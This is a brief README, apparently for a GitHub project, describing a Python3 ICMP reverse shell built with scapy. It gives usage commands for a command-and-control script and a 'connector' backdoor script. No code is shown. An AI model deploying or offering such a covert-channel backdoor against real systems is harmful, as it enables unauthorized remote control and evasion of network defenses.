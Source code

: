 # Python3 ICMP reverse shell 
ICMP reverse shell with python3 scapy

Usage:
./icmp-cnc.py -i <interface> -d <destination ip> 		(Command and Control)
./icmpdoor.py -i <interface> -d <destination ip> 	(connector)
